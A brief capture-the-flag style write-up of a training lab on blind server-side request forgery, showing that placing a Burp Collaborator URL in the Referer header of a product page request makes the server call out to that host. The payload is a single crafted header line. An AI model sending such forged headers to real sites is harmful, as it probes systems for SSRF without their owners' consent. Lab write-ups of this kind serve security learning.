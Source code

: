 # Lab: Blind SSRF with out-of-band detection

>This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

>To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server.

### Observations
**Vulnerable Area**: Referer header of `/product?productId=1`

**My Burp Client**: `7t1l5byzzgi2b4ttqgp2qh77vy1opd.burpcollaborator.net`

### Solution
This lab was VERY simple. Send the `GET /product?productId=1` request to repeater, then change the value of the `Referer` header to your burp collaborator url:

`Referer: https://7t1l5byzzgi2b4ttqgp2qh77vy1opd.burpcollaborator.net`

Lab solved!